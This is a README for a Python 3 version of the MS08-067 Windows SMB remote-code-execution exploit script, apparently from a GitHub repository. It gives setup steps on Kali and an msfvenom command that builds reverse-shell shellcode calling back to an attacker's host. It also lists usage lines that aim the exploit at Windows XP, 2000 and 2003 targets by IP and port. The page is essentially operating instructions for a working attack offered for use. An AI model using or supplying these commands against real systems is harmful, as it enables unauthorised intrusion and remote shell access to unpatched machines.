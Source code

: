 <h1>MS08_067 Exploit Script - Updated 2021 - Python 3 Version</h1>

This is an updated version of the super old MS08-067 Python 3 exploit script. Credit to @andyacer

Cloned and edited from this repository:
https://github.com/andyacer/ms08_067

<h2>Use on Kali</h2>

<p>git clone https://github.com/EVL87/ms08_067</p>
<p>cd ms08-067</p>
<p>sudo apt-get install python3-pip</p>
<p>pip install pycrypto</p>

<h2>Generating Shellcode</h2>
<p>Example msfvenom commands to generate shellcode. Just paste these into the file which you'll edit after downloading. 'Cause you're an awesome hacker like that.</p>
<li>msfvenom -p windows/shell_reverse_tcp LHOST=x.x.x.x LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows</li>

<h2>Usage</h2>
<h3>Usage: python3 ms08-067_p3.py <IP> <os #> <Port #></h3>

<li>python3 ms08-067_p3.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445</li>
<li>python3 ms08-067_p3.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)</li>
<li>python3 ms08-067_p3.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal</li>
<li>python3 ms08-067_p3.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English</li>
<li>python3 ms08-067_p3.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)</li>
<li>python3 ms08-067_p3.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)</li>
<li>python3 ms08-067_p3.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)</li>
